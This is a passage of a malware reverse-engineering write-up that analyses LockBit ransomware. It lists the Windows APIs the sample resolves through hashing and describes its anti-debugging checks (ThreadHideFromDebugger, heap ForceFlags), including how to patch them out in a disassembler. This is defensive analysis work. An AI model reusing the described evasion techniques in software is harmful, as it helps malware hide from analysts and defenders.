	- api (`0x4256AC`) ~ [`DrawTextA`](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-drawtexta)
	<div align="center"></div>
	- api (`0x4256B0`) ~ [`SystemParametersInfoW`](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-systemparametersinfow)
	<div align="center"></div>
	- api (`0x4256B4`) ~ [`OpenWindowStationW`](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-openwindowstationw)
	<div align="center"></div>
	- api (`0x4256B8`) ~ [`CloseWindowStation`](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-closewindowstation)
	<div align="center"></div>
	- api (`0x4256BC`) ~ [`OpenDesktopW`](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-opendesktopw)
	<div align="center"></div>
	- api (`0x4256C0`) ~ [`CloseDesktop`](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-closedesktop)
	<div align="center"></div>
	- api (`0x4256C4`) ~ [`GetSystemMetrics`](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-getsystemmetrics)
	<div align="center"></div>
	- api (`0x4256C8`) ~ [`GetShellWindow`](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-getshellwindow)
	<div align="center"></div>
	- api (`0x4256CC`) ~ [`GetDesktopWindow`](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-getdesktopwindow)
	<div align="center"></div>
	- api (`0x4256D0`) ~ [`IsWindowVisible`](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-iswindowvisible)
	<div align="center"></div>
  
In blue we can see the pointers to the allocation of each API:
<div align="center"></div>

- address `0x4256d4` ([`gdi32.dll`](https://windows10dll.nirsoft.net/gdi32_dll.html)):
<div align="center"></div>

First 4 bytes of param_2 are the hash of [`gdi32.dll`](https://windows10dll.nirsoft.net/gdi32_dll.html) DLL.
<div align="center"></div>

.
	- api (`0x4256D8`) ~ [`CreateFontW`](https://learn.microsoft.com/en-us/windows/win32/api/wingdi/nf-wingdi-createfontw)
	<div align="center"></div>
	- api (`0x4256DC`) ~ [`CreateFontIndirectW`](https://learn.microsoft.com/en-us/windows/win32/api/wingdi/nf-wingdi-createfontindirectw)
	<div align="center"></div>
	- api (`0x4256E0`) ~ [`GetDeviceCaps`](https://learn.microsoft.com/en-us/windows/win32/api/wingdi/nf-wingdi-getdevicecaps)
	<div align="center"></div>
	- api (`0x4256E4`) ~ [`BitBlt`](https://learn.microsoft.com/en-us/windows/win32/api/wingdi/nf-wingdi-bitblt)
	<div align="center"></div>
	- api (`0x4256E8`) ~ [`SetBkColor`](https://learn.microsoft.com/en-us/windows/win32/api/wingdi/nf-wingdi-setbkcolor)
	<div align="center"></div>
	- api (`0x4256EC`) ~ [`CreateDCW`](https://learn.microsoft.com/en-us/windows/win32/api/wingdi/nf-wingdi-createdcw)
	<div align="center"></div>
	- api (`0x4256F0`) ~ [`CreateCompatibleBitmap`](https://learn.microsoft.com/en-us/windows/win32/api/wingdi/nf-wingdi-createcompatiblebitmap)
	<div align="center"></div>
	- api (`0x4256F4`) ~ [`CreateCompatibleDC`](https://learn.microsoft.com/en-us/windows/win32/api/wingdi/nf-wingdi-createcompatibledc)
	<div align="center"></div>
	- api (`0x4256F8`) ~ [`SelectObject`](https://learn.microsoft.com/en-us/windows/win32/api/wingdi/nf-wingdi-selectobject)
	<div align="center"></div>
	- api (`0x4256FC`) ~ [`CreateDIBSection`](https://learn.microsoft.com/en-us/windows/win32/api/wingdi/nf-wingdi-createdibsection)
	<div align="center"></div>
	- api (`0x425700`) ~ [`DeleteDC`](https://learn.microsoft.com/en-us/windows/win32/api/wingdi/nf-wingdi-deletedc)
	<div align="center"></div>
	- api (`0x425704`) ~ [`DeleteObject`](https://learn.microsoft.com/en-us/windows/win32/api/wingdi/nf-wingdi-deleteobject)
	<div align="center"></div>
	- api (`0x425708`) ~ [`SetTextColor`](https://learn.microsoft.com/en-us/windows/win32/api/wingdi/nf-wingdi-settextcolor)
	<div align="center"></div>
	- api (`0x42570C`) ~ [`SetBKMode`](https://learn.microsoft.com/en-us/windows/win32/api/wingdi/nf-wingdi-setbkmode)
	<div align="center"></div>
	- api (`0x425710`) ~ [`SetMapMode`](https://learn.microsoft.com/en-us/windows/win32/api/wingdi/nf-wingdi-setmapmode)
	<div align="center"></div>
	- api (`0x425714`) ~ [`GetTextExtentPoint32W`](https://learn.microsoft.com/en-us/windows/win32/api/wingdi/nf-wingdi-gettextextentpoint32w)
	<div align="center"></div>
	- api (`0x425718`) ~ [`StartDocW`](https://learn.microsoft.com/en-us/windows/win32/api/wingdi/nf-wingdi-startdocw)
	<div align="center"></div>
	- api (`0x42571C`) ~ [`EndDoc`](https://learn.microsoft.com/en-us/windows/win32/api/wingdi/nf-wingdi-enddoc) 
	<div align="center"></div>
	- api (`0x425720`) ~ [`StartPage`](https://learn.microsoft.com/en-us/windows/win32/api/wingdi/nf-wingdi-startpage)
	<div align="center"></div>
	- api (`0x425724`) ~ [`EndPage`](https://learn.microsoft.com/en-us/windows/win32/api/wingdi/nf-wingdi-endpage)
	<div align="center"></div>
  
In blue we can see the pointers to the allocation of each API (after first four 00 bytes):
<div align="center"></div>

- address `0x425728` ([`shell32.dll`](https://windows10dll.nirsoft.net/shell32_dll.html)):
<div align="center"></div>

First 4 bytes of param_2 are the hash of [`shell32.dll`](https://windows10dll.nirsoft.net/shell32_dll.html) DLL.
<div align="center"></div>

.
	- api (`0x42572C`) ~ [`CommandLineToArgvW`](https://learn.microsoft.com/en-us/windows/win32/api/shellapi/nf-shellapi-commandlinetoargvw)
	<div align="center"></div>
	- api (`0x425730`) ~ [`ShGetSpecialFolderPathW`](https://learn.microsoft.com/en-us/windows/win32/api/shlobj_core/nf-shlobj_core-shgetspecialfolderpathw)
	<div align="center"></div>
	- api (`0x425734`) ~ [`ShellExecuteW`](https://learn.microsoft.com/en-us/windows/win32/api/shellapi/nf-shellapi-shellexecutew)
	<div align="center"></div>
	- api (`0x425738`) ~ [`ShChangeNotify`](https://learn.microsoft.com/en-us/windows/win32/api/shlobj_core/nf-shlobj_core-shchangenotify)
	<div align="center"></div>
  
In blue we can see the pointers to the allocation of each API:
<div align="center"></div>

- address `0x42573c` ([`ole32.dll`](https://windows10dll.nirsoft.net/ole32_dll.html)):
<div align="center"></div>

First 4 bytes of param_2 are the hash of [`ole32.dll`](https://windows10dll.nirsoft.net/ole32_dll.html) DLL.
<div align="center"></div>

.
	- api (`0x425740`) ~ [`CoCreateGuid`](https://learn.microsoft.com/en-us/windows/win32/api/combaseapi/nf-combaseapi-cocreateguid)
	<div align="center"></div>
	- api (`0x425744`) ~ [`CoInitialize`](https://learn.microsoft.com/en-us/windows/win32/api/objbase/nf-objbase-coinitialize)
	<div align="center"></div>
	- api (`0x425748`) ~ [`CoInitializeEx`](https://learn.microsoft.com/en-us/windows/win32/api/combaseapi/nf-combaseapi-coinitializeex)
	<div align="center"></div>
	- api (`0x42574C`) ~ [`CoUninitialize`](https://learn.microsoft.com/en-us/windows/win32/api/combaseapi/nf-combaseapi-couninitialize)
	<div align="center"></div>
	- api (`0x425750`) ~ [`CoGetObject`](https://learn.microsoft.com/en-us/windows/win32/api/objbase/nf-objbase-cogetobject)
	<div align="center"></div>
	- api (`0x425754`) ~ [`CoInitializeSecurity`](https://learn.microsoft.com/en-us/windows/win32/api/combaseapi/nf-combaseapi-coinitializesecurity)
	<div align="center"></div>
	- api (`0x425758`) ~ [`CoCreateInstance`](https://learn.microsoft.com/en-us/windows/win32/api/combaseapi/nf-combaseapi-cocreateinstance)
	<div align="center"></div>
	- api (`0x42575C`) ~ [`CoCreateInstanceEx`](https://learn.microsoft.com/en-us/windows/win32/api/combaseapi/nf-combaseapi-cocreateinstanceex)
	<div align="center"></div>
	- api (`0x425760`) ~ [`CoSetProxyByBlanket`](https://learn.microsoft.com/en-us/windows/win32/api/combaseapi/nf-combaseapi-cosetproxyblanket)
	<div align="center"></div>
  
In blue we can see the pointers to the allocation of each API:
<div align="center"></div>

- address `0x425764` ([`shlwapi.dll`](https://windows10dll.nirsoft.net/shlwapi_dll.html)):
<div align="center"></div>

First 4 bytes of param_2 are the hash of [`shlwapi.dll`](https://windows10dll.nirsoft.net/shlwapi_dll.html) DLL.
<div align="center"></div>

.
	- api (`0x425768`) ~ [`PathFindExtensionW`](https://learn.microsoft.com/en-us/windows/win32/api/shlwapi/nf-shlwapi-pathfindextensionw)
	<div align="center"></div>
	- api (`0x42576C`) ~ [`PathIsNetworkPathW`](https://learn.microsoft.com/en-us/windows/win32/api/shlwapi/nf-shlwapi-pathisnetworkpathw)
	<div align="center"></div>
	- api (`0x425770`) ~ [`PathFindFileNameW`](https://learn.microsoft.com/en-us/windows/win32/api/shlwapi/nf-shlwapi-pathfindfilenamew)
	<div align="center"></div>
	- api (`0x425774`) ~ [`PathFindFileNameA`](https://learn.microsoft.com/en-us/windows/win32/api/shlwapi/nf-shlwapi-pathfindfilenamea)
	<div align="center"></div>
	- api (`0x425778`) ~ [`PathIsUNCServerW`](https://learn.microsoft.com/en-us/windows/win32/api/shlwapi/nf-shlwapi-pathisuncserverw)
	<div align="center"></div>
	- api (`0x42577C`) ~ [`PathQuoteSpacesW`](https://learn.microsoft.com/en-us/windows/win32/api/shlwapi/nf-shlwapi-pathquotespacesw)
	<div align="center"></div>
	- api (`0x425780`) ~ [`PathUnquoteSpacesW`](https://learn.microsoft.com/en-us/windows/win32/api/shlwapi/nf-shlwapi-pathunquotespacesw)
	<div align="center"></div>
	- api (`0x425784`) ~ [`PathRemoveFileSpecW`](https://learn.microsoft.com/en-us/windows/win32/api/shlwapi/nf-shlwapi-pathremovefilespecw)
	<div align="center"></div>
	- api (`0x425788`) ~ [`PathIsFileSpecW`](https://learn.microsoft.com/en-us/windows/win32/api/shlwapi/nf-shlwapi-pathisfilespecw)
	<div align="center"></div>
	- api (`0x42578C`) ~ [`PathIsDirectoryEmptyW`](https://learn.microsoft.com/en-us/windows/win32/api/shlwapi/nf-shlwapi-pathisdirectoryemptyw)
	<div align="center"></div>
	- api (`0x425790`) ~ [`PathAppendW`](https://learn.microsoft.com/en-us/windows/win32/api/shlwapi/nf-shlwapi-pathappendw)
	<div align="center"></div>
	- api (`0x425794`) ~ [`PathAppendA`](https://learn.microsoft.com/en-us/windows/win32/api/shlwapi/nf-shlwapi-pathappenda)
	<div align="center"></div>
	- api (`0x425798`) ~ [`IUnknown_QueryService`](https://learn.microsoft.com/en-us/windows/win32/api/shlwapi/nf-shlwapi-iunknown_queryservice)
	<div align="center"></div>
  
In blue we can see the pointers to the allocation of each API (after first four 00 bytes):
<div align="center"></div>

- address `0x42579c` ([`oleaut.dll`](https://windows10dll.nirsoft.net/oleaut32_dll.html)):
<div align="center"></div>

First 4 bytes of param_2 are the hash of [`oleaut.dll`](https://windows10dll.nirsoft.net/oleaut32_dll.html) DLL.
<div align="center"></div>

.
	- api (`0x4257A0`) ~ [`VariantInit`](https://learn.microsoft.com/en-us/windows/win32/api/oleauto/nf-oleauto-variantinit)
	<div align="center"></div>
	- api (`0x4257A4`) ~ [`VariantClear`](https://learn.microsoft.com/en-us/windows/win32/api/oleauto/nf-oleauto-variantclear)
	<div align="center"></div>
	- api (`0x4257A8`) ~ [`SysAllocString`](https://learn.microsoft.com/en-us/windows/win32/api/oleauto/nf-oleauto-sysallocstring)
	<div align="center"></div>
	- api (`0x4257AC`) ~ [`SysFreeString`](https://learn.microsoft.com/en-us/windows/win32/api/oleauto/nf-oleauto-sysfreestring)
	<div align="center"></div>
  
In blue we can see the pointers to the allocation of each API:
<div align="center"></div>

- address `0x4257b0` ([`wtsapi32.dll`](https://windows10dll.nirsoft.net/wtsapi32_dll.html)):
<div align="center"></div>

First 4 bytes of param_2 are the hash of [`wtsapi32.dll`](https://windows10dll.nirsoft.net/wtsapi32_dll.html) DLL.
<div align="center"></div>

.
	- api (`0x4257B4`) ~ [`QueryUserToken`](https://learn.microsoft.com/en-us/windows/win32/api/wtsapi32/nf-wtsapi32-wtsqueryusertoken)
	<div align="center"></div>
  
In blue we can see the pointers to the allocation of each API (after first four 00 bytes):
<div align="center"></div>

- address `0x4257b8` ([`rstrtmgr.dll`](https://windows10dll.nirsoft.net/rstrtmgr_dll.html)):
<div align="center"></div>

First 4 bytes of param_2 are the hash of [`rstrtmgr.dll`](https://windows10dll.nirsoft.net/rstrtmgr_dll.html) DLL.
<div align="center"></div>

.
	- api (`0x4257BC`) ~ [`RmStartSession`](https://learn.microsoft.com/en-us/windows/win32/api/restartmanager/nf-restartmanager-rmstartsession)
	<div align="center"></div>
	- api (`0x4257C0`) ~ [`RmRegisterResources`](https://learn.microsoft.com/en-us/windows/win32/api/restartmanager/nf-restartmanager-rmregisterresources)
	<div align="center"></div>
	- api (`0x4257C4`) ~ [`RmGetList`](https://learn.microsoft.com/en-us/windows/win32/api/restartmanager/nf-restartmanager-rmgetlist)
	<div align="center"></div>
	- api (`0x4257C8`) ~ [`RmEndSession`](https://learn.microsoft.com/en-us/windows/win32/api/restartmanager/nf-restartmanager-rmendsession)
	<div align="center"></div>
  
In blue we can see the pointers to the allocation of each API:
<div align="center"></div>

- address `0x4257cc` ([`netapi32.dll`](https://windows10dll.nirsoft.net/netapi32_dll.html)):
<div align="center"></div>

First 4 bytes of param_2 are the hash of [`netapi32.dll`](https://windows10dll.nirsoft.net/netapi32_dll.html)l DLL.
<div align="center"></div>

.
	- api (`0x4257D0`) ~ [`NetGetJoinInformation`](https://learn.microsoft.com/en-us/windows/win32/api/lmjoin/nf-lmjoin-netgetjoininformation)
	<div align="center"></div>
	- api (`0x4257D4`) ~ [`NetShareEnum`](https://learn.microsoft.com/en-us/windows/win32/api/lmshare/nf-lmshare-netshareenum)
	<div align="center"></div>
	- api (`0x4257D8`) ~ [`NetUserEnum`](https://learn.microsoft.com/en-us/windows/win32/api/lmaccess/nf-lmaccess-netuserenum)
	<div align="center"></div>
	- api (`0x4257DC`) ~ [`NetUserSetInfo`](https://learn.microsoft.com/en-us/windows/win32/api/lmaccess/nf-lmaccess-netusersetinfo)
	<div align="center"></div>
	- api (`0x4257E0`) ~ [`NetUserGetInfo`](https://learn.microsoft.com/en-us/windows/win32/api/lmaccess/nf-lmaccess-netusergetinfo)
	<div align="center"></div>
	- api (`0x4257E4`) ~ [`NetApiBufferFree`](https://learn.microsoft.com/en-us/windows/win32/api/lmapibuf/nf-lmapibuf-netapibufferfree)
	<div align="center"></div>
	- api (`0x4257E8`) ~ [`DsGetDcNameW`](https://learn.microsoft.com/en-us/windows/win32/api/dsgetdc/nf-dsgetdc-dsgetdcnamew)
	<div align="center"></div>
	- api (`0x4257EC`) ~ [`DsGetDcOpenW`](https://learn.microsoft.com/en-us/windows/win32/api/dsgetdc/nf-dsgetdc-dsgetdcopenw)
	<div align="center"></div>
	- api (`0x4257F0`) ~ [`DsGetDcNextW`](https://learn.microsoft.com/en-us/windows/win32/api/dsgetdc/nf-dsgetdc-dsgetdcnextw)
	<div align="center"></div>
	- api (`0x4257F4`) ~ [`DsGetDcCloseW`](https://learn.microsoft.com/en-us/windows/win32/api/dsgetdc/nf-dsgetdc-dsgetdcclosew)
	<div align="center"></div>
  
In blue we can see the pointers to the allocation of each API:
<div align="center"></div>

- address `0x4257f8` ([`activeds.dll`](https://windows10dll.nirsoft.net/activeds_dll.html)):
<div align="center"></div>

First 4 bytes of param_2 are the hash of [`activeds.dll`](https://windows10dll.nirsoft.net/activeds_dll.html) DLL.
<div align="center"></div>

.
	- api (`0x4257FC`) ~ [`ADSOpenObject`](https://learn.microsoft.com/en-us/windows/win32/api/adshlp/nf-adshlp-adsopenobject)
	<div align="center"></div>
	- api (`0x425800`) ~ [`ADSGetObject`](https://learn.microsoft.com/en-us/windows/win32/api/adshlp/nf-adshlp-adsgetobject)
	<div align="center"></div>
	- api (`0x425804`) ~ [`ADSBuildEnumerator`](https://learn.microsoft.com/en-us/windows/win32/api/adshlp/nf-adshlp-adsbuildenumerator)
	<div align="center"></div>
	- api (`0x425808`) ~ [`AdsEnumerateNext`](https://learn.microsoft.com/en-us/windows/win32/api/adshlp/nf-adshlp-adsenumeratenext)
	<div align="center"></div>
	- api (`0x42580C`) ~ [`AdsFreeEnumerator`](https://learn.microsoft.com/en-us/windows/win32/api/adshlp/nf-adshlp-adsfreeenumerator)
	<div align="center"></div>

In blue we can see the pointers to the allocation of each API (after first four 00 bytes):
<div align="center"></div>

- address `0x425810` ([`wininet.dll`](https://windows10dll.nirsoft.net/wininet_dll.html)):
<div align="center"></div>

First 4 bytes of param_2 are the hash of [`wininet.dll`](https://windows10dll.nirsoft.net/wininet_dll.html) DLL. 
<div align="center"></div>

.
	- api (`0x425814`) ~ [`InternetOpenW`](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetopenw)
	<div align="center"></div>
	- api (`0x425818`) ~ [`InternetConnectW`](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetconnectw)
	<div align="center"></div>
	- api (`0x42581C`) ~ [`InternetSetOptionW`](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetsetoptionw)
	<div align="center"></div>
	- api (`0x425820`) ~ [`InternetQueryOptionW`](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetqueryoptionw)
	<div align="center"></div>
	- api (`0x425824`) ~ [`InternetCloseHandle`](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetclosehandle)
	<div align="center"></div>
	- api (`0x425828`) ~ [`HttpQueryInfoW`](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-httpqueryinfow)
	<div align="center"></div>
	- api (`0x42582C`) ~ [`HttpOpenRequestW`](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-httpopenrequestw)
	<div align="center"></div>
	- api (`0x425830`) ~ [`HttpSendRequestW`](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-httpsendrequestw)
	<div align="center"></div>
	- api (`0x425834`) ~ [`InternetQueryDataAvailable`](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetquerydataavailable)
	<div align="center"></div>
	- api (`0x425838`) ~ [`InternetReadFile`](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetreadfile)
	<div align="center"></div>
  
In blue we can see the pointers to the allocation of each API:
<div align="center"></div>

- address `0x42583c` ([`wsock32.dll`](https://windows10dll.nirsoft.net/wsock32_dll.html)):
<div align="center"></div>

First 4 bytes of param_2 are the hash of [`wsock32.dll`](https://windows10dll.nirsoft.net/wsock32_dll.html) DLL.
<div align="center"></div>

.
	- api (`0x425840`) ~ [`WSAStartup`](https://learn.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-wsastartup)
	<div align="center"></div>
	- api (`0x425844`) ~ [`WSACleanup`](https://learn.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-wsacleanup)
	<div align="center"></div>
	- api (`0x425848`) ~ [`gethostbyname`](https://learn.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-gethostbyname)
	<div align="center"></div>
  
In blue we can see the pointers to the allocation of each API:
<div align="center"></div>

- address `0x42584c` ([`mpr.dll`](https://windows10dll.nirsoft.net/mpr_dll.html)):
<div align="center"></div>

First 4 bytes of param_2 are the hash of [`mpr.dll`](https://windows10dll.nirsoft.net/mpr_dll.html)l DLL.
<div align="center"></div>

.
	- api (`0x425850`) ~ [`WNetAddConnection2W`](https://learn.microsoft.com/en-us/windows/win32/api/winnetwk/nf-winnetwk-wnetaddconnection2w)
	<div align="center"></div>
	- api (`0x425854`) ~ [`WNetCancelConnection2W`](https://learn.microsoft.com/en-us/windows/win32/api/winnetwk/nf-winnetwk-wnetcancelconnection2w)
	<div align="center"></div>
  
In blue we can see the pointers to the allocation of each API:
<div align="center"></div>

- address `0x425858` ([`winspool.drv`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/winspool/)):
<div align="center"></div>

First 4 bytes of param_2 are the hash of [`winspool.drv`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/winspool/) DLL.
<div align="center"></div>

.
	- api (`0x42585C`) ~ [`OpenPrinterW`](https://docs.rs/winapi/latest/i686-pc-windows-msvc/winapi/um/winspool/fn.OpenPrinterW.html)
	<div align="center"></div>
	- api (`0x425860`) ~ [`ClosePrinter`](https://docs.rs/winapi/latest/i686-pc-windows-msvc/winapi/um/winspool/fn.ClosePrinter.html)
	<div align="center"></div>
	- api (`0x425864`) ~ [`EnumPrintersW`](https://docs.rs/winapi/latest/i686-pc-windows-msvc/winapi/um/winspool/fn.EnumPrintersW.html)
	<div align="center"></div>
	- api (`0x425868`) ~ [`DocumentPropertiesW`](https://docs.rs/winapi/latest/i686-pc-windows-msvc/winapi/um/winspool/fn.DocumentPropertiesW.html)
	<div align="center"></div>
  
In blue we can see the pointers to the allocation of each API (after first four 00 bytes)I:
<div align="center"></div>

- address `0x42586c` ([`gpedit.dll`](https://windows10dll.nirsoft.net/gpedit_dll.html)):
<div align="center"></div>

First 4 bytes of param_2 are the hash of [`gpedit.dll`](https://windows10dll.nirsoft.net/gpedit_dll.html) DLL.
<div align="center"></div>

.
	- api (`0x425870`) ~ [`CreateGPOLink`](https://learn.microsoft.com/en-us/windows/win32/api/gpedit/nf-gpedit-creategpolink)
	<div align="center"></div>
  
In blue we can see the pointers to the allocation of each API:
<div align="center"></div>


After this vast import of obfuscated functions (305 functions), at first glance reading the name of the functions we can see that LockBit dynamically resolves functions using a custom hash-based resolver. Each function address pointer is stored in a consecutive 4-byte block pointer. These imported APIs span a wide range of system functionality:
- **Memory and heap management (`ntdll.dll`)**: Functions like `RtlCreateHeap`, `RtlAllocateHeap`, and `RtlFreeHeap` are used for dynamic memory operations essential to internal structures and payload deployment.
- **String manipulation (CRT functions)**: Functions such as `strcpy`, `wcslen`, and `wcscpy` handle ASCII and wide strings for internal data processing, registry paths, and file names.
- **File and process management (`kernel32.dll`)**: APIs like `CreateProcessW`, `ReadFile`, `WriteFile`, and `CreateMutexW` are used for file access, process control, and resource locking.
- **System services and privileges (`advapi32.dll`)**: Registry access (`RegCreateKeyExW`), service management (`OpenSCManagerW`, `StartServiceW`), and privilege escalation (`RtlAdjustPrivilege`, `LogonUserW`) enable persistence and elevated execution.
- **Environment and policies (`userenv.dll`)**: Used to manage user environment blocks and enforce group policies (`CreateEnvironmentBlock`, `RefreshPolicyEx`).
- **Graphical interface interaction (`user32.dll`, `gdi32.dll`)**: APIs for GUI elements, desktop interaction, and drawing routines support visual payloads or overlays.
- **Shell interaction and path utilities (`shell32.dll`, `shlwapi.dll`)**: Command execution and special folder access (`ShellExecuteW`, `PathIsUNCServerW`) aid in evasion and lateral movement.
- **COM/OLE functionality (`ole32.dll`, `oleaut32.dll`)**: Interfaces for object instantiation and automation (`CoCreateInstance`, `VariantInit`) allow integration with system components.
- **Networking and connectivity (`wininet.dll`, `wsock32.dll`, `mpr.dll`)**: HTTP requests, socket communication, and network resource access are handled using APIs like `InternetReadFile`, `gethostbyname`, and `WNetAddConnection2W`.
- **Printing and policies (`winspool.drv`, `gpedit.dll`)**: Used to enumerate or configure printer devices and link GPOs to organizational units, potentially for evasion or system manipulation.

We can see that they are dynamically invoked by referencing the address where they are stored if we look at the next address to be executed after the massive import of functions of `load_apis_func` at the function `FUN_0040b444`.
<div align="center"></div>

- hide_thread_from_dbg_func (FUN_0040b444)
	Now we don't need to look at assembly as it's quite clear the functionality looking at the decompiled code. If `param_1` is `zero`, it is, the changes it to `-2` and invokes the function at the address `DAT_00425498` with four parameters. If we look at the list of offsets we will see that the function is [ZwSetInformationThread](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntddk/nf-ntddk-zwsetinformationthread). 
	<div align="center"></div>
  
	What the function does is with the first parameter, a HANDLE, `param_1` equals `-2`(`0xfffffffe`), which is the current thread, looking as this [`source states`](https://ntdoc.m417z.com/ntcurrentthread). Second parameter, a [`THREADINFOCLASS`](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/api/ps/psquery/class.htm), `0x11` sets the class for the thread which references `ThreadHideFromDebugger`, an obvious anti-debug measure. If we look at this [`source`](https://colinsenner.com/blog/thread-hide-from-debugger/) you can see how it hides instantly from the debugger, we will need to get rid of this to continue debugging.
	
	Based on this we will rename the function to `hide_thread_from_dbg_func`.
	<div align="center"></div>
  

---

Before doing anything, as the function what only does is to alter that it can be visible to the debugger, we will substitute the call to the function [`ZwSetInformationThread`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntddk/nf-ntddk-zwsetinformationthread)  and the pushed arguments to a NOP instruction, making the first one a `MOV EAX, 0x0` in order to return zero to have some parameter to return, as we did before with Ghidra, patching the binary of LockBit.
<div align="center"></div>

Now export it as always.

---

As we have seen, now the functions are being called dynamically, so if we go to `DAT_00425498` we will see more addresses being called as functions, with the same offset of the imported addresses:
<div align="center"></div>

To make the execution easier to understand, it will be necessary to rename every one of them by going to a function that uses it and renaming it in the decompiled code, like with the previous one:
<div align="center"></div>

After renaming each one of them, there are some functions that despite being retrieved are not being used, especially all the ones [`wsock32.dll`](https://windows10dll.nirsoft.net/wsock32_dll.html).

Now the next function to analyse is `FUN_00417738`, executed after `hide_thread_from_dbg_func`.
<div align="center"></div>

- decompress_obfuscated_code_func (FUN_00417738):
	This function receives as `param_1` the handle to the created heap and as `param_2` the [`RtlAllocateHeap`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-rtlallocateheap) function.
	If we look at the start of the code, we can clearly see an anti-debug technique, but this time it now checks at the created heap, on its [`structure`](https://www.vergiliusproject.com/kernels/x86/windows-10/22h2/_HEAP), the `ForceFlags` field with the offset `0x44` if the flag [`HEAP_VALIDATE_PARAMETERS_ENABLED`](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/enable-heap-parameter-checking) is active, which is slightly different than the previous one, because this one looks at `ForceFlags` instead of flags.
	If we look at the heap handle we can see in the `ForceFlags` field the flags `0x40000060`, which are [`HEAP_VALIDATE_PARAMETERS_ENABLED`](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/enable-heap-parameter-checking)(`0x40000000`),  [HEAP_FREE_CHECKING_ENABLED](https://anti-debug.checkpoint.com/techniques/debug-flags.html#manual-checks-heap-protection)(`0x00000040`) and [`HEAP_TAIL_CHECKING_ENABLED`](https://anti-debug.checkpoint.com/techniques/debug-flags.html#manual-checks-heap-protection)(`0x00000020`), as it is discussed at [`checkpoint article`](https://anti-debug.checkpoint.com/techniques/debug-flags.html#manual-checks-heap-flags), that these flags are set in `ForceFlags` when debugging.
	<div align="center"></div>
  
```assembly
MOV EBX,[EBP + param_1]       ; EBX = param_1 (heap handle)
TEST [EBX + 0x44], 0x40000000 ; Check if flag HEAP_VALIDATE_PARAMETERS_ENABLED
							  ; is active
JZ LAB_00417756               ; If not active is not debugged skip next instruction
ROR EBX,0x1                   ; If active -> debugged, corrupt heap handle with ROR
	LAB_00417756:
...
```

---
.
	Once again we will need to get rid of this anti-debugging technique substituting the ROR operation by a `NOP`.
	<div align="center"></div>
	And export it as always.

---
.
	After that it takes a value from `0x424DBB` address and passes it to the function `FUN_00406844`.
```assembly
LEA ESI,[DAT_00424dbf]       ; ESI points to 0x424DBF
PUSH [ESI - 4]               ; Pass previous address with -0x4 (0x424DBB), 0x1ae
CALL FUN_00406844            ; Function called with the weird parameter (0x1ae)
```
.
		- allocate_data_processheap_antidbg (FUN_00406844):
		<div align="center"></div>
		At this short function it retrieves a value from `FUN_0040108c`, so before analysing anything we will see what it does.
			- return_peb_func (FUN_0040108c):
			It's only a function that returns [`ProcessEnvironmentBlock (PEB)`](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/api/pebteb/peb/index.htm).
			<div align="center"></div>
			We will rename the function to `return_peb_func`:
			<div align="center"></div>
		With that being clear, once again we find another anti-debug technique similar to the previous one. It looks at [`PEB`](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/api/pebteb/peb/index.htm) with an offset of `0x18` at the `PVOID ProcessHeap` which, according to [`Microsoft`](https://learn.microsoft.com/en-us/windows/win32/api/heapapi/nf-heapapi-getprocessheap) is the default heap of the calling process. Now in comparison to before, it checks the `ForceFlags` of the default heap of the executable instead of the created heap with [`RtlCreateHeap`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-rtlcreateheap). It checks the `ForceFlags` because, as we checked earlier at a [`heap structure`](https://www.vergiliusproject.com/kernels/x86/windows-10/22h2/_HEAP) the `0x44` is the `ForceFlags` field where `0x40000000` corresponds to the [`HEAP_VALIDATE_PARAMETERS_ENABLED`](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/enable-heap-parameter-checking) flag. After that it invokes [`RtlAllocateHeap`]([RtlAllocateHeap](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-rtlallocateheap)) with this format `RtlAllocateHeap(ProcessHeap, HEAP_ZERO_MEMORY, 0x1AE)`, `0x8` is the flag [`HEAP_ZERO_MEMORY`](doxygen.reactos.org/d5/df7/ndk_2rtltypes_8h_source.html#l00128) which, according to [`Microsoft documentation`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-rtlallocateheap), the allocated memory is initialised to zero, with a specified size to allocate by `param_1`.
```assembly
CALL       return_peb_func                     ; returns PEB on EAX
